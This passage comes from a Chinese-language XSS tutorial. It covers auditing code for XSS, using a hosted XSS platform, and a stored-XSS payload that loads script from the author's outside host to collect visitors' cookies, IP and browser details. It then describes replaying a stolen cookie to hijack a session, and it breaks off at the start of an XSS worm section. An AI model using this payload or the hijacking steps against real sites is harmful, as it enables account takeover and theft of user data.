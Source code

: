 也可以搜索类似`echo`这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

大多数程序会对接受参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。

同理审计DOM型注入可以搜索一些js操作DOM元素的关键词进行审计。

代码审计简单就讲这些，以后有机会单独出代码审计系列的文章。

## XSS漏洞利用方式
上面讲解了XSS的分类及一些简单的测试挖掘XSS的方法，那么XSS究竟能做些什么呢，下面介绍几种常见的XSS利用方式。

### XSS平台
XSS平台是用来在线管理测试XSS漏洞的，我搭建的XSS平台地址：http://xo0.cc

![](http://image.ixysec.com/image/xss/xss032.png)

可以创建不同的项目管理存在XSS的站点。在配置中选择不同的模块，一般选择默认的就够用。

![](http://image.ixysec.com/image/xss/xss033.png)

然后可以在项目代码中看到项目的XSS地址和代码，只要页面加载了这个地址，相应的代码就会被执行。

![](http://image.ixysec.com/image/xss/xss034.png)

### COOKIE获取

我们发个帖测试一下，帖子内容修改为：
```
<sCRiPt/SrC=//xo0.cc/gHnd>
```
![](http://image.ixysec.com/image/xss/xss035.png)

然后我们打开帖子详情页

![](http://image.ixysec.com/image/xss/xss036.png)

网络中我们可以看到，页面加载了我们插入的地址。同时XSS平台也收到了信息，包含来源地址，COOKIE，浏览器信息、ip地址等等。

![](http://image.ixysec.com/image/xss/xss037.png)

程序员可以在代码中设置COOKIE的时候将HTTPONLY属性设置为TRUE就可以防止COOKIE被获取。

### 会话劫持

我们获取COOKIE是为了伪造登陆信息，从而在不知道账号密码的情况下登陆用户或管理员的账户。

打开一个未登录的浏览器，将COOKIE的值替换成我们获取到的COOKIE进行访问，刷新页面就可以看到我们已经是登陆状态了。

![](http://image.ixysec.com/image/xss/xss038.gif)

### XSS蠕虫

蠕虫病毒的传染性是一传二、二传四......而且被感染后的同时自己也作为感染源继续发布恶意代码感染其他人。
